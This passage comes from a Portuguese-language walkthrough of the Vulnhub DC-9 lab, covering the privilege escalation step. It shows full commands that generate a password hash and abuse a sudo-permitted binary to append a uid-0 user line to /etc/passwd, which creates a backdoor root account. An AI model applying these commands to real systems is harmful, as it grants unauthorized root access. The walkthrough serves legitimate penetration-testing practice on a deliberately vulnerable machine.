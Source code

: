 
* Seguindo a metodologia, ao listar o que o usuario pode fazer como sudo encontramos algo interessante

![](/assets/img/Vulnhub/DC-9/sudo -l-fredf.png)




* Varrendo os diretorios do binario e os anteriores encontramos o arquivos **test.py**. Ao ler ele e possivel imaginar que o binario ao executar o mesmo pode escrever em um arquivo

![](/assets/img/Vulnhub/DC-9/test-py.png)




## Adicionando um usuario


* Como ja sabemos que podemos utilizar o binario test como sudo e o binario pode escrever em um arquivo... Entao vamos adidionar um usuario no /etc/passwd com os mesmos privilegios do root

```bash
openssl passwd thelifesnake
echo "charlie:pFBA1KAF/n7DA:0:0:Charlie:/root:/bin/bash" >> charlie.txt
sudo /opt/devstuff/dist/test/test charlie.txt /etc/passwd
```

![](/assets/img/Vulnhub/DC-9/charlie-add.png)

> O comando openssl serve para codificarmos a senha no formato que o passwd aceita

> Com o comando echo adicionamos uma linha com a mesma formatacao do passwd para um arquivo "charlie.txt"
